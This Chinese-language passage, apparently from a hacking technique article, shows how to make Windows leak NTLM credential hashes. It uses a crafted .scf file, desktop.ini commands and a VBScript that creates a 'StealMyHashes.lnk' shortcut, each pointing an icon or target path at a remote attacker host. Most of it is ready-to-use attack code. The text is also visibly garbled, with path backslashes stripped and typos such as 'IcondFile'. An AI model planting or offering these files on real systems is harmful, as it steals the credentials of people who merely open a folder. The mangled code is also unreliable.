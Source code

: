 

**SHELL命令文件**

你可以将它存储为“.scf”文件，一旦打开文件夹资源管理器，它将会尝试解析图标的网络路径。



```
[Shell]
Command=2
IconFile=\35.164.153.224test.ico
[Taskbar]
Command=ToggleDesktop
```



**Desktop.ini**

Desktop.ini文件中包含了你要应用到文件夹的图标信息。我们可以将它用于解析一个网络路径。一旦你打开这个文件夹，它就会自动解析网络路径，就可以得到HASH，利用方法如下：



```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] &gt; desktop.ini
echo IconResource=\192.168.0.1aa &gt;&gt; desktop.ini
attrib +s +h desktop.ini
```

需要注意的是，在XP系统中，Desktop.ini文件使用“IcondFile”代替了“IconResource”。



```
[.ShellClassInfo]
IconFile=\192.168.0.1aa
IconIndex=1337
```



**快捷方式文件(.lnk)**

我们可以创建一个包含网络路径的快捷方式文件，当你打开打时，Windows就会尝试解析网络路径。你还可以指定快捷键以触发快捷方式。对于图标位置，你可以使用一个Windows二进制文件、或位于system32目录中的shell32.dll、Ieframe.dll、imageres.dll、pnidui.dll、wmploc.dll等。



```
Set shl = CreateObject("WScript.Shell")
Set fso = CreateObject("Scripting.FileSystemObject")
currentFolder = shl.CurrentDirectory
Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, "StealMyHashes.lnk"))
sc.TargetPath = "\35.164.153.224@OsandaMalith"
sc.WindowStyle = 1
sc.HotKey = "Ctrl+Alt+O"
sc.IconLocation = "%windir%system32shell32.dll, 3"
sc.Description = "I will Steal your Hashes"
sc.Save
```
